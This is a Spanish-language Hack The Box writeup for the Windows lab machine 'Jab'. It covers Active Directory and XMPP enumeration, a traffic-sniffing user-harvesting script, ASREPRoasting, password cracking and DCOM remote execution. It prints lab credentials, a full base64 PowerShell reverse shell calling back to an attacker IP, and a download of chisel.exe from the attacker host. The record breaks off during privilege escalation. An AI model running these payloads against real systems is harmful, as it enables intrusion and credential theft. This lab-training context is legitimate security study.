



+++
author = "Andrés Del Cerro"
title = "Hack The Box: Jab Writeup | Medium"
date = "2024-08-03"
description = ""
tags = [
    "HackTheBox",
    "Jab",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "Openfire Jabber Enumeration",
    "XMPP Enumeration",
    "Scripting",
    "Python Scripting",
    "ASREPRoasting",
    "Password Cracking",
    "Information Leakage",
    "User Pivoting",
    "Abusing ExecuteDCOM",
    "Reverse Port Forwarding",
    "OpenFire"
]

+++

# Hack The Box: Jab Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Jab"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.230.215 --ulimit 5000 -g
10.129.230.215 -> [53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5262,5263,5270,5269,7777,9389,5276,5275,5985,47001,49771,49703,49696,49694,49695,49673,49667,49666,49664,49665]
```

```shell
$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5262,5263,5270,5269,7777,9389,5276,5275,5985,47001,49771,49703,49696,49694,49695,49673,49667,49666,49664,49665 -sCV 10.129.230.215 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 19:11 CEST
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 54.55% done; ETC: 19:12 (0:00:25 remaining)
Nmap scan report for 10.129.230.215
Host is up (0.039s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-03 15:12:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-03T15:13:29+00:00; -1h59m39s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-03T15:13:29+00:00; -1h59m39s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-08-03T15:13:29+00:00; -1h59m39s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-03T15:13:29+00:00; -1h59m39s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
5222/tcp  open  jabber
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 4pv9473fdx
|     compression_methods: 
|     features: 
|     xmpp: 
|_      version: 1.0
|_ssl-date: TLS randomness does not represent time
5223/tcp  open  ssl/jabber    Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     features: 
|     errors: 
|       (timeout)
|     compression_methods: 
|_    xmpp: 
|_ssl-date: TLS randomness does not represent time
5262/tcp  open  jabber        Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 31dkpsnust
|     compression_methods: 
|     features: 
|     xmpp: 
|_      version: 1.0
5263/tcp  open  ssl/jabber    Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     features: 
|     errors: 
|       (timeout)
|     compression_methods: 
|_    xmpp: 
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
5269/tcp  open  xmpp          Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     features: 
|     errors: 
|       (timeout)
|     compression_methods: 
|_    xmpp: 
5270/tcp  open  ssl/xmpp      Wildfire XMPP Client
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
5275/tcp  open  jabber        Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: am31c60wbx
|     compression_methods: 
|     features: 
|     xmpp: 
|_      version: 1.0
5276/tcp  open  ssl/jabber    Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     auth_mechanisms: 
|     capabilities: 
|     unknown: 
|     features: 
|     errors: 
|       (timeout)
|     compression_methods: 
|_    xmpp: 
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7777/tcp  open  socks5        (No authentication; connection failed)
| socks-auth-info: 
|_  No authentication
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49695/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49771/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5222-TCP:V=7.94SVN%I=7%D=8/3%Time=66AE64EC%P=x86_64-pc-linux-gnu%r(
SF:RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.org
SF:/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-stre
SF:ams\"/></stream:error></stream:stream>");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-03T15:13:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1h59m39s, deviation: 0s, median: -1h59m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.39 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.230.215 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 19:14 CEST
Nmap scan report for 10.129.230.215
Host is up (0.043s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT     STATE  SERVICE
53/udp   open   domain
88/udp   open   kerberos-sec
123/udp  open   ntp
1040/udp closed netarx
1053/udp closed remote-as
```

De los escaneos con `nmap` sabemos que nos enfrentamos a un entorno de directorio activo.
Descubrimos el dominio `jab.htb` y lo que seguramente sea el controlador de dominio, `DC01.jab.htb` 

También vemos varios puertos que corresponden a un servicio `jabber` detectado por `nmap`. Y viendo que la máquina se llama Jab, lo tendré en cuenta. También vemos un servicio XMPP.

Otro servicio curioso es el 7777/TCP que supuestamente corresponde a un proxy de tipo socks5.

Ignite Realtime Openfire Jabber server 3.10.0.

# Other Enumeration
Enumerando el SMB no conseguí nada con una null session, ni tampoco en el RPC.

Con LDAP tampoco consigo información relevante sin tener credenciales.
```shell
$ ldapsearch -H ldap://10.129.230.215 -x -s base -b '' "(objectClass=*)" "*" +
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectClass=*)
# requesting: * + 
#

#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=jab,DC=htb
ldapServiceName: jab.htb:dc01$@JAB.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedControl: 1.2.840.113556.1.4.2309
supportedControl: 1.2.840.113556.1.4.2330
supportedControl: 1.2.840.113556.1.4.2354
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=jab,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=jab,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=jab,DC=htb
namingContexts: CN=Configuration,DC=jab,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=DomainDnsZones,DC=jab,DC=htb
namingContexts: DC=ForestDnsZones,DC=jab,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 266344
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=jab,DC=htb
dnsHostName: DC01.jab.htb
defaultNamingContext: DC=jab,DC=htb
currentTime: 20240803152352.0Z
configurationNamingContext: CN=Configuration,DC=jab,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

# Enumerating XMPP
Vamos a instalar un client XMPP. Desde la página de [Jabber](https://jabber.at/clients/) se recomienda varios así que me he decidido por `Gajim`

`$ sudo apt-get install gajim`

Intentando crear una cuenta..


Probando el dominio..


Para evitar problemas, voy a desactivar el usar conexiones encriptadas, así no utilizaremos el SSL y no me dará problemas ya que es un certificado autofirmado.


Si nos dirigimos a `Acconts -> Discover Services`

Vemos varios servicios.


Si nos dirigimos al servicio de `User Search`y introducimos una wildcard conseguimos muchos usuarios que nos pueden venir para enumerar el protocolo de Kerberos.


El problema es que no podemos copiar y pegar rápidamente..

Además son muchos usuarios, por lo cual podría cambiar de cliente XMPP buscando alguno que tenga una función para poder exportar, o debug...

¿Pero para que, si tenemos python?

Primero vemos como se tramita la data en `wireshark` y podemos ver que se tramita en varios paquetes en un XML gigante.


Este es el script.
```python
from scapy.all import sniff, TCP, IP
import re
import signal

users = []

def save_to_file(x,y):
    # Eliminando repetidos..
    users_list = list(set(users))
    print("[!] Guardando %i usuarios y saliendo..." % len(users_list))
    with open("users.txt", "w") as txt:
        for user in users_list:
            txt.write(user + "\n")
        exit(0)
    
signal.signal(signal.SIGINT, save_to_file)

def packet_callback(packet):
    if packet.haslayer(TCP):
        ip_layer = packet[IP]
        tcp_layer = packet[TCP]
        data = bytes(tcp_layer.payload)
        if data:
            # print(f"[{ip_layer.src}:{tcp_layer.sport} -> {ip_layer.dst}:{tcp_layer.dport}] {data}")
            pattern = r'<value>(.*?)<'
            matches = re.findall(pattern,data.decode('utf-8'))
            for match in matches:
                if '@' not in match and ' ' not in match and not match.isnumeric():
                    users.append(match)
                    print("[i] Found %i users" % len(users))

def main():
    # Sniff TCP packets on interface tun0
    interface = "tun0"
    print(f"Sniffing TCP packets on {interface}...")
    sniff(filter="tcp", iface=interface, prn=packet_callback, store=0)

if __name__ == "__main__":
    main()
```

Simple pero nos sirve, simplemente captura el tráfico TCP por `tun0` y aplica una expresión regular para quedarse con la data dentro de `<value>DATA<`. Luego nos quedamos con los que no contengan espacios ni `@` , de esta forma nos quedamos con algunos falsos positivos y con los usuarios.

Mientras estamos ejecutando el script, ejecutamos varias veces la consulta de usuarios para asegurar que no se nos olvida ninguno, al guardar el archivo se eliminan repetidos así que perfecto.
```shell
$ sudo python3 sniff.py 
Sniffing TCP packets on tun0...
[i] Found 1 users
[i] Found 2 users
[i] Found 3 users
[i] Found 4 users
[i] Found 5 users
[i] Found 6 users
...
[i] Found 3247 users
[i] Found 3248 users
[i] Found 3249 users
^C[!] Guardando 2118 usuarios y saliendo...
```

```shell
$ cat users.txt  | head -n 10
aworrell
astuart
mfulk
econdie
anellis
gnolte
```

Ahora, podemos confirmar cuantos usuarios son válidos con `kerbrute`
`$ /opt/kerbrute userenum --dc 10.129.230.215 -d jab.htb users.txt`

`2024/08/03 20:11:52 >  Done! Tested 2117 usernames (2112 valid) in 9.794 seconds`

Ahora parseamos los usuarios exportados.
```shell
$ rm users.txt 
rm: remove write-protected regular file 'users.txt'? y
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/jab/content]
└──╼ [★]$ cat valid_users.txt | awk '{print $7}' | cut -d'@' -f1 > users.txt
```

# ASREPRoast
Ahora que tenemos una lista de usuarios, podemos con `impacket-GetNPUsers` ejecutar un ataque de tipo `ASREPRoast` para obtener hashes de los tickets TGT y crackearlos.

`impacket-GetNPUsers -no-pass -usersfile users.txt jab.htb/ -o hashes`

¡Y obtenemos algunos hashes!
- lbradford
- jmontgomery
- mlowe

# Cracking the hashes
```
$ john -w=/usr/share/wordlists/rockyou.txt hashes
...
Midnight_121     ($krb5asrep$23$jmontgomery@JAB.HTB) 
```

Solo he conseguido crackear ese TGT.

Con `netexec` podemos confirmar estas credenciales.
```shell
nxc smb 10.129.230.215 -u 'jmontgomery' -p 'Midnight_121'
SMB         10.129.230.215  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.215  445    DC01             [+] jab.htb\jmontgomery:Midnight_121
```

# Bloodhound Python
Lo primero que se me ocurrió es con `bloodhound-python` podemos hacer una enumeración para ver si tenemos algún privilegio sobre otros objetos.
```shell
$ bloodhound-python -ns 10.129.230.215 -dc dc01.jab.htb -d jab.htb -c All -u 'jmontgomery' -p 'Midnight_121'
```


Ahora lo importamos al `bloodhound`

Vemos que pertenece a un grupo `Contractors` pero no vemos nada interesante.


# Obtaining svc_openfire credentials
Así que después de un rato, intenté iniciar sesión en el XMPP como este usuario.


También vemos que este usuario tiene una foto de perfil de `kali linux` por lo cual podemos deducir que a lo mejor tiene algo que ver con la ciberseguridad de la empresa.


Buscando las conferencias, vemos un grupo interesante.


No veo nada...


Investigando un poco, decidí cambiar de cliente XMPP porque había alcanzado un punto muerto donde poca cosa podía hacer.

Instalé `pidgin` otro cliente recomendado desde `jabber.at`

Configuramos la cuenta de usuario..


Vemos la sala, nos unimos..


Y ahora sí vemos algo... Vemos un hash crackeado para la cuenta `svc_openfire`
`svc_openfire:!@#$%^&*(1qazxsw`

Podemos comprobar estas credenciales
```shell
$ nxc smb 10.129.230.215 -u 'svc_openfire' -p '!@#$%^&*(1qazxsw'
SMB         10.129.230.215  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.215  445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
```

# Getting Foothold
Ahora volvemos al `bloodhound` y establecemos como Owned esta cuenta de usuario.

Vemos que este usuario pertenece al grupo `Distributed COM Users` en DC01.JAB.HTB. Se podría acontecer ejecución de código si se cumplen ciertas condiciones.


Viendo este [post](https://medium.com/@iamkumarraj/exploring-impacket-dcomexec-enhancing-active-directory-attack-capabilities-a9663d383703) en medium, conseguí ejecución remota de comandos probando varios comandos...
```shell
$ impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@dc01.jab.htb 'ping 10.10.14.80' -debug -silentcommand
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Target system is dc01.jab.htb and isFQDN is True
[+] StringBinding: DC01[60242]
[+] StringBinding chosen: ncacn_ip_tcp:dc01.jab.htb[60242]
```

```shell
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:02:15.015723 IP dc01.jab.htb > 10.10.14.80: ICMP echo request, id 1, seq 165, length 40
21:02:15.015865 IP 10.10.14.80 > dc01.jab.htb: ICMP echo reply, id 1, seq 165, length 40
21:02:16.023460 IP dc01.jab.htb > 10.10.14.80: ICMP echo request, id 1, seq 166, length 40
21:02:16.023492 IP 10.10.14.80 > dc01.jab.htb: ICMP echo reply, id 1, seq 166, length 40
21:02:17.026112 IP dc01.jab.htb > 10.10.14.80: ICMP echo request, id 1, seq 167, length 40
21:02:17.026142 IP 10.10.14.80 > dc01.jab.htb: ICMP echo reply, id 1, seq 167, length 40
21:02:18.073972 IP dc01.jab.htb > 10.10.14.80: ICMP echo request, id 1, seq 168, length 40
21:02:18.073997 IP 10.10.14.80 > dc01.jab.htb: ICMP echo reply, id 1, seq 168, length 40
```

Ahora con `nishang`, cogemos la típica reverse shell en powershell, `Invoke-PowerShellTcp.ps1` y le añadimos esta línea al final del todo.


Ahora ofrecemos este archivo por el puerto 8081.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Nos ponemos en escucha por el puerto 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y no conseguí mandarme la revshell. Así que alternativamente probé el típico payload en base64 con `powershell -e` y después de ejecutar varias veces el comando, quitando y poniendo el parámetro `-silentcommand` conseguí la reverse shell.


```shell
$ impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@dc01.jab.htb 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAwACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=' -debug
```

```cmd
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.230.215] 53443
whoami
jab\svc_openfire
PS C:\windows\system32>
```

```cmd
PS C:\Users\svc_openfire\Desktop> type user.txt
d4c3ac560a3b52d...
```

# Privilege Escalation

### Reverse Port Forwarding
Como esta cuenta se llama `svc_openfire` supongo que debe de hacer un servicio de `OpenFire` detrás, así que busqué el puerto por defecto que utiliza.


Con `netstat -ano`...


Buscando por exploits, vemos que existen varios, entonces merece la pena con `chisel` hacer reverse port forwarding y echarle un vistazo.


Compartimos el `chisel.exe`

```powershell
PS C:\Users\svc_openfire\Desktop> iwr http://10.10.14.80:8081/chisel.exe -o chisel.exe
```

